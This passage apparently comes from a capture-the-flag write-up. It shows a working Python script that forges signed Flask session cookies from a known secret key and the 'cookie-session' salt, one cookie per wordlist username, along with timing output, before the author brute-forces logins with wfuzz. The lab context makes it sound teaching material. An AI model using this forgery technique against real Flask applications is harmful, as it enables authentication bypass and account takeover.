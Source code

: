         return URLSafeTimedSerializer(
            secret_key=secret,
            salt=salt,
            serializer=TaggedJSONSerializer(),
            signer=signer,
            signer_kwargs={
                'key_derivation': 'hmac',
                'digest_method': hashlib.sha1})
    

Tracing backwards I can find the default salt is “cookie-session”. Other
things I know or are just imported at the top of the file. I can use this to
generate a script of my own:

    
    
    #!/usr/bin/env python3
    
    import hashlib
    import sys
    from flask.json.tag import TaggedJSONSerializer
    from itsdangerous import TimestampSigner, URLSafeTimedSerializer
    
    if len(sys.argv) < 2:
        print(f"{sys.argv[0]} [wordlist]")
        sys.exit()
    
    with open(sys.argv[1], 'r') as f:
        names = f.readlines()
    
    for name in names:
        cookie = URLSafeTimedSerializer(
                secret_key='secret123',
                salt='cookie-session',
                serializer=TaggedJSONSerializer(),
                signer=TimestampSigner,
                signer_kwargs={
                    'key_derivation': 'hmac',
                    'digest_method': hashlib.sha1
                    }
                )
        print(cookie.dumps({"logged_in": True, "username": name.strip()}))
    

This does the entire list in less than a second:

    
    
    oxdf@hacky$ time python3 generate_flask_cookies.py /usr/share/seclists/Usernames/Names/names.txt > names_cookies 
    
    real    0m0.525s
    user    0m0.514s
    sys     0m0.010s
    

Either way, I’ll use `wfuzz` to check each cookie, hiding 302 responses
(redirects back to `/login`):
